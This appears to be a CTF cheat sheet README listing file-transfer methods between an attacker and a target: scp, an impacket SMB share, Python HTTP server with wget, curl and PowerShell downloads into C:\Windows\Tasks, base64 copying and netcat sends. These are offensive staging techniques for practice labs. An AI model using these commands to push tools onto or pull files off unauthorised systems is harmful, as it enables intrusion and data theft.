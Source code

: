 # File-Transfer
## Collection of File Transfer possibilities

In some CTF's it is useful to have a Plan B if you need to transfer a file from or to a remote machine.

## SCP
The bestcase scenario is scp over a SSH connection.
```bash
scp user@sourceIP:/PATH/file.ext user@destinationIP:/PATH/file.ext
```

## SMBserver
Start a SMBserver in you current directory [.] to copy & paste files back and forth.
```bash
sudo impacket-smbserver -smb2support share[NAME] .[/PATH] 
```
Copy from Windows Target
```bash
copy .\file.ext \\SMBserverIP\share\file.ext
```
Copy to a Windows Target
```bash
copy \\SMBserverIP\share\file.ext .\file.ext
```
Make sure to stop the SMBserver after transfer because everybody in that network has access to your SMBserver.

## Python Server
It is also possible to start a Python3 http.server and transfer some files with wget or IWR. <br>
At the Source
```bash
python3 -m http.server 8080
```
At the destination Linux
```bash
wget http://sourceIP:8080/file.ext
curl http://sourceIP:8080/file.ext -o /PATH/file.ext
```
At the destination Windows
```bash
powershell.exe IEX(New-Object Net.WebClient).DownloadFile('http://sourceIP/file.ext','C:\Windows\Tasks\file.ext')
iwr "http://sourceIP/file.ext" -outfile "C:\Windows\Tasks\file.ext"
```
## HTML
If your target has a public facing Webpage you can use it to download the files.
```bash
cp file.ext /var/www/html/
chmod 0777 /var/www/html/file.ext
http://source.URL/file.ext
```

## Base64
If all else fails, there is always plan y. <br>
Convert a file or program to a Base64 string copy & paste it to the Target and deconvert it. <br>
<br>
On Linux
```bash
base64 file.ext > fileb64.txt
cat fileb64.txt
```
On Windows
```bash
[convert]::ToBase64String((Get-Content -path "file.ext" -Encoding byte))
```
Copy the Base64 string and paste the string to any Text-Editor.
```bash
vim string.b64
```

## netcat
Simple sending <br>
<br>
On receiving Machine
```bash
nc -lvnp 8002 > file.txt
```
On the sending Machine
```bash
nc -w 3 <RECEIVER IP> 8002 < file.txt
```
